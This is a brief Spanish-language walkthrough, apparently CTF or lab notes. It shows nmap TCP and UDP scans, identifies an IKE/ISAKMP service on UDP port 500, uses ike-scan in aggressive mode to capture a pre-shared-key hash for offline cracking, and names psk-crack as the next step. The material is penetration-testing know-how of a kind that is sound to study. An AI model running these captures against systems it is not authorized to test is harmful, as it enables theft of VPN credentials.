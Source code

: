 Empezaremos realizando un escaneo con [[NMAP]] en el cual encontramos abierto el purto `22/tcp` y el puerto `500/udp`
`nmap -sSCV -p- --open --min-rate 5000 -n -Pn -vvv <IP>`
`nmap -sU -p- --open --min-rate 5000 -n -Pn -vvv <IP>`

En el puerto `500` hay un servicio `ISAKMP Internet Security Association and Key Management Protocol`
Usaremos [[IKE-SCAN]] es una utilidad de línea de comandos para descubrir, identificar (fingerprint) y recopilar información de hosts que hablan IKE (Internet Key Exchange)

Ejecutaremos el siguiente comando:
`ike-scan --aggressive --pskcrack=psk.params`
`--aggresive` -> Envía identidades y parámetros en los primeros mensajes, sin esperar un handshake completo.
`--pskcrack` -> Captura el handshake en Aggressive Mode y lo guarda en `psk.params`

Usaremos [[PSK-CRACK]] 
